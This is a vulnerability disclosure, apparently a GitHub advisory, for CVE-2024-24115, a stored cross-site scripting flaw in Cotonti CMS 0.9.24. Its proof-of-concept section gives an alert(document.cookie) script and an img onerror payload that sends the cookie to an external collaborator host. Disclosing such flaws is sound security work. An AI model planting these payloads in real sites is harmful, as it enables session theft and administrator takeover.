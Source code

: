 # CVE-2024-24115: Stored Cross-Site Scripting (XSS) in Edit Page function in Cotonti CMS 0.9.24

> https://github.com/Cotonti/Cotonti

# Vulnerability Type
CWE-79: Cross-site Scripting (XSS) - Stored

# CVSS 7.6 HIGH
CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:H/A:L

# Description
A user that is in the moderator group or any group that can edit Pages, is able to inject malicious Javascript code to the Page and effectively steal the session cookie of any user, including any administrator's

# Execution steps
1. A Member User is logged in and can edit a Page. (Example: the Welcome! page in the News category)
2. A Member User is logged in and adds malicious code in the Page that has 'parser' switched to 'none'.
3. A Member User is logged in, views the Page but the malicious code is stored but not executed.
4. A Member User is logged in, edits the Page and switches 'parser' to 'html'.
5. An Admin user is logged in and the malicious code is silently executed.
6. The Attacker receives the cookie of the Admin that visits the Page.
7. The stolen cookie belongs to an administrator and the Attacker has full access to the CMS.

# Impact
A malicious user that is in the moderator group or any group that can edit Pages can escalate his privileges to any higher level group, including Administrators without being authorized. The malicious user can then create, edit and delete and content in the CMS, create new users with any privilege and disable users.

# Proof of Concept code
Add some random text in HTML <p> tags and then:

1. Pop-up the cookie with an alert:
```
<script>alert(document.cookie)</script>
```
==OR ==


2. Send the cookie to an Attacker controlled server:
```
<img src=x onerror=this.src="http://5ekinbe9n3ta9w10ozijz91ex53wrmfb.oastify.com?c="+document.cookie />
```

# References
- [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-24115](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-24115)
- [https://nvd.nist.gov/vuln/detail/CVE-2024-24115](https://nvd.nist.gov/vuln/detail/CVE-2024-24115)
